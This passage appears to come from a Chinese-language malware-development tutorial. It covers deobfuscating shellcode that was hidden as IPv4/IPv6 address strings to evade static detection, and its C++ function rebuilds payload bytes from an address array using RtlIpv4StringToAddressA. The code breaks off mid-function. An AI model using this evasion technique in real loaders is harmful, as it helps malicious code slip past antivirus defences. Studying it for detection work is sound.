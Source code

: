 


一旦混淆的payload逃避了静态检测，就需要对其进行反混淆才能执行。反混淆过程将反转混淆过程，允许 IP 地址生成字节。执行反混淆需要满足以下条件：

- **IPv4 反混淆**- 这需要使用 NTAPI [RtlIpv4StringToAddressA](https://learn.microsoft.com/en-us/windows/win32/api/ip2string/nf-ip2string-rtlipv4stringtoaddressa)。它将 IPv4 地址的字符串表示形式转换为二进制 IPv4 地址。
- **IPv6 反混淆**- 与之前的功能类似，IPv6 反混淆将需要使用另一个 NTAPI [RtlIpv6StringToAddressA](https://learn.microsoft.com/en-us/windows/win32/api/ip2string/nf-ip2string-rtlipv6stringtoaddressa)。该函数将 IPv6 地址转换为二进制 IPv6 地址。

### IPv4反混淆

代码示例

```c++
typedef NTSTATUS (NTAPI* fnRtlIpv4StringToAddressA)(
	PCSTR		S,
	BOOLEAN		Strict,
	PCSTR*		Terminator,
   	PVOID		Addr
);

BOOL Ipv4Deobfuscation(IN CHAR* Ipv4Array[], IN SIZE_T NmbrOfElements, OUT PBYTE* ppDAddress, OUT SIZE_T* pDSize) {

	PBYTE           pBuffer                 = NULL, 
                    TmpBuffer               = NULL;

	SIZE_T          sBuffSize               = NULL;

	PCSTR           Terminator              = NULL;

	NTSTATUS        STATUS                  = NULL;

	// Getting RtlIpv4StringToAddressA address from ntdll.dll
	fnRtlIpv4StringToAddressA pRtlIpv4StringToAddressA = (fnRtlIpv4StringToAddressA)GetProcAddress(GetModuleHandle(TEXT("NTDLL")), "RtlIpv4StringToAddressA");
	if (pRtlIpv4StringToAddressA == NULL){
		printf("[!] GetProcAddress Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	// Getting the real size of the shellcode which is the number of IPv4 addresses * 4
	sBuffSize = NmbrOfElements * 4;

	// Allocating memory which will hold the deobfuscated shellcode
	pBuffer = (PBYTE)HeapAlloc(GetProcessHeap(), 0, sBuffSize);
	if (pBuffer == NULL){
		printf("[!] HeapAlloc Failed With Error : %d \n", GetLastError());
		return FALSE;
	}
	
	// Setting TmpBuffer to be equal to pBuffer
	TmpBuffer = pBuffer;

	// Loop through all the IPv4 addresses saved in Ipv4Array
	for (int i = 0; i < NmbrOfElements; i++) {

		// Deobfuscating one IPv4 address at a time
		// Ipv4Array[i] is a single ipv4 address from the array Ipv4Array
		if ((STATUS = pRtlIpv4StringToAddressA(Ipv4Array[i], FALSE, &Terminator, TmpBuffer)) != 0x0) {
			// if it failed
			printf("[!] RtlIpv4StringToAddressA Failed At [%s] With Error 0x%0.8X", Ipv4Array[i], STATUS);
```